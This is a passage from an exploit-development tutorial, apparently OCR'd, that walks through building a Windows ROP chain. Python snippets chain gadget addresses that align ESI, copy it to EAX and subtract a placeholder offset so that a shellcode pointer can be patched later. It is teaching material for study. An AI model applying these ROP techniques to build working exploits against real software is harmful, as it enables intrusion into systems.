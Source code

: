 ```python
# Step 2. Modify the shellcode address, return address, for our dynamically obtained shellcode address.  
# Substract 4 bytes from ESI so it points to our dummy shellcode address in stack (0x46464646)  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
```

Once the four gadgets are executed, if we take a look at esi, it points to our controlled shellcode dummy value in the stack:
```c
0:006> dd esi L1 
0d4fe304 46464646
``` 

With ESI aligned correctly, we need to get the shellcode address in EAX so that we can reuse the “`MOV DWORD [ESI], EAX ; RET`” gadget to patch the placeholder value. The issue we face now is that we do not know the exact address of the shellcode since it will be placed after our ROP chain, which we haven’t finished creating yet. Note that we don't know where our shellcode will be as we will place it **after the ROP chain, and not before it, as we have been doing in the previous buffer overflow techniques.**

The approach to patch the value after we have placed all the ROP gadgets is using the value in ESI and adding a fixed value to it. Once we finish building the ROP chain, we can update the fixed value to correctly align with the beginning of the shellcode.

First, we need to copy ESI into EAX. We need to do this in such a way that we keep the existing value in ESI in a register like EAX as a backup, since we need it there to patch the placeholder value.
The idea is to:
- have in ESI the address of the pointer to our shellcode
- have in EAX the address of our shellcode
So then we can fix `[ESI] with EAX` properly. Now we will use a dummy EAX value, like `ESI` minus a certain fixed offset, just to have the gadgets properly stored in the stack. We will replace the offset value afterwards.
An instruction like “MOV EAX, ESI” is optimal, but unfortunately, the only gadgets containing this instruction also pop a value into ESI. We can however solve this by restoring the value in ESI with the previously-used “PUSH EAX ; POP ESI ; RET” gadget. This way we can do the following:
```c
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret  
rop += pack("<L", (0x42424242)) # junk  
rop += pack("<L", (0x5052f773)) # push eax ; pop esi ; ret
```
We basically have now the same value in ESI and EAX.
Now, we add the offset to EAX. Remember that it is a dummy offset. **Note: Do not use badchars for the offsets, even if they are dummy. For example, instead 0x200, use 0x210.**
```
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0xfffffdf0)) # -0x210   https://www.binaryconvert.com/result_signed_int.html?hexadecimal=FFFFFDF0
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
```

Here we have substracted EAX 210 bytes (dummy quantity). Once we know the exact offset from ESI to the shellcode, we can update the 0xfffffdf0 value to the correct one. At this point, EAX contains a placeholder address for our shellcode, which we can update once we finish building the entire ROP chain.

